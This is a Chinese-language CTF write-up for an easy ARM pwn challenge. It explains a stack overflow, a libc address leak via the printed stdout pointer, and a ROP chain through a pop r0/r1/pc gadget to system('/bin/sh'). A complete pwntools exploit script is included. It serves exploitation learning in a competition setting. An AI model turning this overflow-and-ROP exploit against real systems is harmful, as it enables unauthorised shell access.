




# base_arm

> 比赛：浙江省大学生CTF 2026

> 类别：Pwn

> 难度：Easy

> 考点：arm架构

> flag：`不晓得比赛没写出来`


## 题目描述

题目会打印stdout结构体的地址,网上查到符号表里要找`_IO_2_1_stdout_`



题目里还有一次性read 0x200字节到局部变量里,非常明显的栈溢出,进入汇编看他的SP指针偏移量



两个对SP操作的操作码:SUB SP,SP,#0x40   PUSH {R7,LR}
结尾还有一个ADD 和 MOV将原本存SP-0x40值的R7拿到后+0x40给返回给SP,SP回到了PUSH后的位置,网上查到PUSH指令先压编号大的寄存器,也就是先压LR,再压R7
POP {R7,PC},把之前存的R7还给R7,LR给PC,PC拿到的值在程序运行时的SP+0x44存储
我们要去覆盖这个地址让他跳到我们的shellcode
再查到arm的system函数通过r0传递值,通过命令行找到包含r0,pc的操作码的地址



由此构造payload
payload = b"A"*0x44 + gadget_addr + binsh_addr + b"\0"*4 + system_addr

输入payload后进入后台



## EXP

```python
from pwn import *
TIMEOUT = 5

context(os="linux",arch="arm",log_level="debug")
p = process(['qemu-arm', '-L', './', './pwn'])
#p = remote("127.0.0.1",9999)


elf = ELF("./pwn")
libc=ELF("./libc.so.6")
rop=ROP(elf)

p.recvuntil(b"stream: ",timeout=TIMEOUT)
leak=p.recvline(timeout=TIMEOUT)
leak_addr=int(leak.strip(),16)
libc.address=leak_addr-libc.symbols["_IO_2_1_stdout_"]
#print(libc.address)
system_addr = libc.symbols["system"]

binsh_addr=next(libc.search(b"/bin/sh"))
pop_r0_r1_pc = (0x843b8+ libc.address)

payload=b"\0"*68+p32(pop_r0_r1_pc)+p32(binsh_addr)+p32(binsh_addr)+p32(system_addr)

p.sendafter(b"message:",payload,timeout=TIMEOUT)
p.interactive()
